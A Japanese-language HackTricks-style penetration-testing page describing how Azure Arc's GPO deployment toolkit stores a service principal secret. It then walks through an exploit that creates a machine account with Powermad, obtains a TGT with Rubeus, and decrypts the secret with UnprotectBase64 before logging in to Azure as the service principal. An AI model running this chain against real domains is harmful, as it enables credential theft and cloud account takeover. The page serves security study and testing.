 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### 課題の特定

Azure Arcは、グループポリシーオブジェクトメソッドを使用して新しい内部サーバー（ドメイン参加サーバー）をAzure Arcに統合することを可能にします。これを促進するために、Microsoftはオンボーディング手順を開始するために必要なデプロイメントツールキットを提供しています。ArcEnableServerGroupPolicy.zipファイル内には、次のスクリプトが含まれています：DeployGPO.ps1、EnableAzureArc.ps1、およびAzureArcDeployment.psm1。

DeployGPO.ps1スクリプトを実行すると、以下のアクションが実行されます：

1. ローカルドメイン内にAzure ArcサーバーオンボーディングGPOを作成します。
2. オンボーディングプロセスのために作成された指定されたネットワーク共有にEnableAzureArc.ps1オンボーディングスクリプトをコピーします。この共有にはWindowsインストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は2つの主要なパラメータを提供する必要があります：**ServicePrincipalId**と**ServicePrincipalClientSecret**。さらに、ドメイン、共有をホストするサーバーのFQDN、および共有名などの他のパラメータも必要です。テナントID、リソースグループ、およびスクリプトに提供する必要のあるその他の情報など、さらなる詳細も必要です。

暗号化されたシークレットは、指定された共有のAzureArcDeployディレクトリ内でDPAPI-NG暗号化を使用して生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecretという名前のファイルに保存されます。これに関する証拠は、DeployGPO.ps1スクリプト内に見られ、暗号化は$descriptorと$ServicePrincipalSecretを入力としてProtectBase64を呼び出すことで行われます。descriptorは、ドメインコンピュータおよびドメインコントローラーグループのSIDで構成されており、ServicePrincipalSecretはドメインコントローラーおよびドメインコンピュータのセキュリティグループによってのみ復号化できることが、スクリプトのコメントに記載されています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

次の条件があります：

1. 内部ネットワークに成功裏に侵入しました。
2. Active Directory内でコンピュータアカウントを作成または制御する能力があります。
3. AzureArcDeployディレクトリを含むネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法は、脆弱なACLやさまざまな他の誤設定を通じてマシンアカウントを侵害することです。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してパス・ザ・チケットを利用することができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
メモリにコンピュータアカウントのTGTを保存することで、次のスクリプトを使用してサービスプリンシパルの秘密を復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
代わりに、[SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)を使用できます。

この時点で、暗号化されたServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービスプリンシパルとして認証できます。

## 参考文献

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}

